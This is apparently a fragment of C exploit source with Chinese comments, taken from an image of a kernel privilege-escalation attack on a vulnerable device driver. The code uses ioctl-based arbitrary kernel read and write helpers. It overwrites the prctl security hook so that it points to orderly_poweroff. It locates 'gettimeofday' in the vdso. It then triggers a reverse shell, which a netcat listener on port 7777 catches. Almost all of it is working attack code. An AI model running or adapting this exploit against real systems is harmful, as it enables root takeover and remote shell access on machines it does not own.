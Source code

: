 ```
    //hijack prctl，使得task_prctl指向orderly_poweroff函数
    arbitrary_write(devFD,0x8,&orderly_poweroff_addr,prctl_hook_addr);
    if (fork() == 0) { //fork一个子进程，来触发shell的反弹
        prctl(0,0);
        exit(-1);
    } else {
        printf("[+]open a shell\n");
        system("nc -lvnp 7777");
    }
 
   return 0;
}
 
 
int openDev(char* pos){
    int devFD;
    printf("[+] Open %s...\n",pos);
    if ((devFD = open(pos, O_RDWR)) < 0) {
        printf("    Can't open device file: %s\n",pos);
        exit(1);
    }
    return devFD;
}
 
 
//获取vdso里的字符串"gettimeofday"相对vdso.so的偏移
int get_gettimeofday_str_offset() {
   //获取当前程序的vdso.so加载地址0x7ffxxxxxxxx
   size_t vdso_addr = getauxval(AT_SYSINFO_EHDR);
   char* name = "gettimeofday";
   if (!vdso_addr) {
      printf("[-]error get name's offset\n");
   }
   //仅需要搜索1页大小即可，因为vdso映射就一页0x1000
   size_t name_addr = memmem(vdso_addr, 0x1000, name, strlen(name));
   if (name_addr < 0) {
      printf("[-]error get name's offset\n");
   }
   return name_addr - vdso_addr;
}
 
void arbitrary_read(int devFD,int len,char *buf,size_t addr)
{
    arbWriteObj.len = len;
    arbWriteObj.data = buf;
    arbWriteObj.addr = addr;
    ioctl(devFD,111,&arbWriteObj);
}
 
void arbitrary_write(int devFD,int len,char *buf,size_t addr)
{
    arbWriteObj.len = len;
    arbWriteObj.data = buf;
    arbWriteObj.addr = addr;
    ioctl(devFD,222,&arbWriteObj);
} 
```
